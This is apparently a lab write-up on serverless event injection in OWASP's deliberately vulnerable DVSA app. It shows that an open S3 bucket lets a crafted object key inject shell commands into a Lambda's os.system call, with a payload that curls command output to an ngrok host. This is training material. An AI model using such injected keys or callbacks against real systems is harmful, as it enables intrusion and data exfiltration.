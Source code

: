 
#### Serverless Event Injection Scenario 2
Back to **Damn Vuln Serverless application** installed before in order to discover more events that can be injected

- Visit the URL and add some elements to the cart
- Enter random details in the shipping information and submit them in order to receive the receipt.
- If you take a look to the message of the order, it will contain an S3 bucket with an UUID For the order receipt

- It seems the receipt is being copied from an S3 bucket folder generated using the receipts date and UUID.

This bucket permissions are relatively open, as uploading files is allowed via:
```bash
"echo "blah">file.txt && aws s3 cp file.txt 's3://<BUCKET>/2020/20/20/whatever' -acl public-read"
```

It has been confirmed that the S3 bucket is open For read/write to everyone. Lets check the code in:
```
https://github.com/OWASP/DVSA/blob/master/backend/src/functions/processing/send_receipt_email.py
```

The event handler is reading the bucket name, key and order, then the function replaces the extension **.raw** by **.txt** meaning they expect a raw S3 Object. Then a download path is created and recorded into a log file using **os.system**

> I have prints with this examples, but the quality is not great. So im not gonna post it

- As in the previous example, the app pass to the os.system function some content that we can control as the S3 Bucket permissions are weak.
- Folowwing the name convention that the function expects a OS Command Injection payload can be uploaded and executed using the S3 AWS API.

**Ngrok** - https://ngrok.com/

- Ngrok will be used to expose local ports to the internet and catch a reverse shell For this exercise. Visit the website https://ngrok.com and register an account.
- After the account has been created, download the ngrok client For your OS and authorize it following the instructions under **connect your account**
- Once the account has been set up you can expose a local port to the internet running **ngrok http 80** and taking note of the URL.

Requests received to port 80 can be checked on the local web interface
```
http://127.0.0.1:4040
```

- Now, using the same naming convention as the function expects, a payload can be crafted to achieve RCE and receive the response back to our exposed interface.

Payload:
```bash
aws s3 cp empty.txt
s3://<your bucket id>/2020/20/20/whatever_;curl XXX.grok.io?data="$(whoami)";echo x.raw -acl public-read
```
